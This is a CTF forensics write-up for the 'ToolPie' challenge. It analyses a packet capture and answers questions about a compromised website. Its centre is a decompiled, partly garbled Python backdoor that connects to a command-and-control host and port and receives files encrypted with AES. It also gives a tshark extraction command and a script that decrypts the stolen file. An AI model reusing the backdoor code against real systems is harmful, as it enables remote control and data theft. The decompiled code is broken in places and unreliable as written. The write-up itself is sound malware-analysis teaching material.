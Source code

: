 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2025 | ToolPie Writeup
desc: Check out our writeup for ToolPie for Cyber Apocalypse 2025 capture the flag competition.
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2025
parent: cyber_apocalypse_2025
category: forensics
challenge: ToolPie
tags: "forensics, twh, pcap, wireshark, tshark, python, obfuscation, aes"
date: 2025-03-29T00:00:00+00:00
last_update: 2025-03-29T00:00:00+00:00
---
```




> Solved by thewhiteh4t


- We were given a PCAP in this challenge


- What is the IP address responsible for compromising the website?
    - Based on POST requests in the PCAP : `194.59.6.66`
- What is the name of the endpoint exploited by the attacker?
    - Based on POST requests : `/execute`
- What is the name of the obfuscation tool used by the attacker?
    - Simply printing the script found above shows a code object which contains a string : `Py-Fuscate`

```    
# replaced exec() with print()
> python chal.py
<code object <module> at 0x555555605650, file "Py-Fuscate", line 1>
```

- What is the IP address and port used by the malware to establish a connection with the Command and Control (C2) server?
    - To find this first we need to get the plain text code, what we have is a `python code object`, we can create `pyc` file which is bytecode and get plaintext from it using tools like `uncompyle6`, `decompyle3` or `pycdc`
    - However none of the tools worked due to python version mismatch, so I found `pylingual`
    - in the code we can see the IP and port : `13.61.7.218:55155`

```
# Decompiled with PyLingual (https://pylingual.io)
# Internal filename: Py-Fuscate
# Bytecode version: 3.13.0rc3 (3571)
# Source timestamp: 2025-03-24 20:26:54 UTC (1742848014)
from os import popen
pass
pass
import socket
import threading
import os
import time
import random
import string
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad
user = os.popen('whoami').read()
BUFFER_SIZE = 4096
SEPARATOR = '<SEPARATOR>'
CONN = True
def enc_mes(mes, key):
    try:
        cypher = AES.new(key.encode(), AES.MODE_CBC, key.encode())
        cypher_block = 16
        mes = mes.encode() if type(mes)!= bytes else mes
        return cypher.encrypt(pad(mes, cypher_block))
    except:
        return None
def dec_file_mes(mes, key):
    cypher = AES.new(key.encode(), AES.MODE_CBC, key.encode())
    cypher_block = 16
    s = cypher.decrypt(mes)
    return unpad(s, cypher_block)
def dec_mes(mes, key):
    if mes == b'':
        return mes
def receive_file():
    try:
        client2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        client2.connect(('13.61.7.218', 54163))
        k = ''.join((random.SystemRandom().choice(string.ascii_letters + string.digits) for _ in range(16)))
        client2.send(k.encode())
        pass
        enc_received = client2.recv(BUFFER_SIZE)
        received = dec_mes(enc_received, k).decode()
        filename, filesize = received.split(SEPARATOR)
        ok_enc = enc_mes('ok2', k)
        client2.send(ok_enc)
        total_bytes = 0
        msg = b''
        if total_bytes < int(filesize):
            bytes_read = client2.recv(BUFFER_SIZE)
            msg += bytes_read
            total_bytes += len(bytes_read)
        decr_file = dec_mes(msg, k)
        with open(filename, 'wb') as f:
            f.write(decr_file)
                pass
                client2.close()
    except:
        pass  # postinserted
    client2.send('Error transporting file'.encode())
def receive(client, k):
    pass
    try:
        pass  # postinserted
    s += 1
    msg = client.recv(1024)
    raise Exception('Reconnect!') if s == 300 else True if msg == b'' else False
    except:
        pass  # postinserted
    pass
    try:
        pass  # postinserted
    client.close()
    client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    client.connect(('13.61.7.218', 55155))
    k = ''.join((random.SystemRandom().choice(string.ascii_letters + string.digits) for _ in range(16)))
    client.send(f'{user}{SEPARATOR}{k}'.encode())
    client.settimeout(600)
    time.sleep(60)
    except:
        time.sleep(60)
if __name__ == '__main__':
    pass
    try:
        pass  # postinserted
    client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    client.connect(('13.61.7.218', 55155))
    k = ''.join((random.SystemRandom().choice(string.ascii_letters + string.digits) for _ in range(16)))
    client.send(f'{user}{SEPARATOR}{k}'.encode())
    client.settimeout(600)
    break
    receive_thread = threading.Thread(target=receive, args=(client, k))
    receive_thread.start()
except:
    pass  # postinserted
time.sleep(50)
```

- What encryption key did the attacker use to secure the data?
    - In the code we can see where the key is sent : `client.send(f'{user}{SEPARATOR}{k}'.encode())`
    - we can look for this pattern in the PCAP : `ec2amaz-bktvi3e\administrator\n5UUfizsRsP7oOCAq` so the key is : `5UUfizsRsP7oOCAq`


- What is the MD5 hash of the file exfiltrated by the attacker?
    - Since we have the key, we can write our own decryption script
    - first we need to extract data chunks from the PCAP using `tshark -2 -r capture.pcap -R "tcp.stream eq 4 and data.data" -T fields -e data.data > datafile.txt`
    - now we can write a script to parse data chunks and decrypt the stolen files

```
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

def dec_file_mes(mes, key):
    cypher = AES.new(key.encode(), AES.MODE_CBC, key.encode())
    cypher_block = 16
    s = cypher.decrypt(mes)
    return unpad(s, cypher_block)

key = '5UUfizsRsP7oOCAq'

filename = None
size = 0
container = b''
filling = False
got_size = False

with open('datafile.txt') as encfile:
    hex_lines = encfile.readlines()
    for line in hex_lines:
        got_name = False
        if filename:
            got_name = True

        msg = bytes.fromhex(line)
        if b'SEPARATOR' in msg:
            continue

        if not filling:
            decr_file = dec_file_mes(msg, key)
            if b'C:' in decr_file:
                filename = decr_file.decode().split('\\')[-1]
                print('[+] Filename : ', filename)
            if got_name and not got_size:
                if int(decr_file.decode()):
                    size = int(decr_file.decode())
                    print('[+] File Size : ', size)
                    got_size = True
            if size and b'ok' in decr_file:  # handle last ok msg after size
                filling = True
        else:
            if len(container) != size:
                container += msg

    decr_file = dec_file_mes(container, key)
    print(f'[+] Writing : {filename}')
    with open(filename, 'wb') as outfile:
        outfile.write(decr_file)
```    


![](https://i.imgur.com/8nMLOhx.png)


MD5 Hash : `8fde053c8e79cf7e03599d559f90b321`



